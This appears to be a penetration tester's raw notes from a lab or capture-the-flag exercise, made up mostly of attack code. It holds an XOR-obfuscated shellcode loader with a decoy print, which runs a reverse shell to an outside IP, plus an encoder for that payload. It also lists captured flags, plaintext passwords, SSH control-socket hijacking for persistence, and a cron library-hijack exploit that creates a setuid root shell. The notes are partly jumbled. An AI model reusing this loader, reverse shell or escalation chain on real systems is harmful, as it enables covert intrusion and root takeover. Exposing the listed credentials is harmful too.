


#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect #include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>
#include <stdlib.h>
unsigned char buf[]="\x7B\xB5\x20\x43\x12\xD3\xFC\x5A\x02\xC3\x9C\x07\x7B\x83\x20\x68\x0B\x10\x20\x4D\x10\x45\x4F\x02\xCF\x8A\x32\x1B\x20\x40\x0B\x13\x1A\x20\x63\x12\xD3\x20\x48\x15\x20\x4B\x14\x45\x4F\x02\xCF\x8A\x32\x71\x02\xDD\x02\xF3\x48\x4A\x4B\xF1\x8A\xE2\x67\xD6\x1B\x02\xC3\xAC\x20\x5A\x10\x20\x60\x12\x45\x4F\x13\x02\xCF\x8A\x33\x6F\x03\xB5\x83\x3E\x52\x1D\x20\x69\x12\x20\x4A\x20\x4F\x02\xC3\xAD\x02\x7B\xBC\x45\x4F\x13\x13\x15\x02\xCF\x8A\x33\x8D\x20\x76\x12\x20\x4B\x15\x45\x4F\x14\x20\x34\x10\x45\x4F\x02\xCF\x8A\x32\xA7\xB5\xAC\x4A";
int main()
{
char xor_key = 'J';
int arraysize = (int) sizeof(buf);
for (int i=0; i<arraysize-1; i++)
{
buf[i] = buf[i]^xor_key;
}
printf("I love programming.");
//sleep(10);
if (fork() == 0)
{
intptr_t pagesize = sysconf(_SC_PAGESIZE);
if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
pagesize, PROT_READ|PROT_EXEC)) {
perror("mprotect");
return -1;
}
int (*ret)() = (int(*)())buf;ret();
}
return 3;
}
// XOR encoder
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
unsigned char buf[] =
"\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
"\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
"\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
"\x01\xbb\xc0\xa8\x2d\x9c\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
"\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
"\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
"\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
"\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
"\x78\xed\xff\xe6";
int main (int argc, char **argv)
{
char xor_key = 'J';
int payload_length = (int) sizeof(buf);
for (int i=0; i<payload_length; i++)
{
printf("\\x%02X",buf[i]^xor_key);
}
return 0;
}
Flag 1: 4329a99d89cd8839818425a837c2e6e5
potential loots
todd : whyaretheresomanyants
Persistence
ControlPath ~/.ssh/controlmaster/%r@%h:%p
ControlMaster auto
ControlPersist yes
Exploit cron
socket comes up:

Exploit
ssh -S marks@cb3:22 marks@cb3
flag (.173): 88b6e66995f970de8794fa3c41688c70
bowwow

* root : lifeintheantfarm (.171)
flag 4: 3fd8b9cd01b11f5b600ef31171157a0a (171)
pspy
* bin/sh -c sudo -u marks bash -i -c 'source /home/marks/.bashrc; echo "nothingwaschangedargh" | sudo -S netstat -ap > /tmp/mark_listening.txt'
## find libraries
ldd /bin/netstat
## chose a writable path
```c
### code below of dll
```c
# compile
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
# upload library to user home folder
## modify .bashrc because env variable are not persistentr so you must specify library path
alias sudo="sudo LD_LIBRARY_PATH=/home/marks"
## wait for the cron job to trigger
Library c code
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid
static void runmahpayload() __attribute__((constructor)); // telling compiler that this function willbe defined latervoid runmahpayload() {
void runmahpayload(){
setuid(0);
setgid(0);
printf("DLL HIJACKING IN PROGRESS \n");
system("cp /bin/bash /tmp/bash; chmod +s /tmp/bash");
}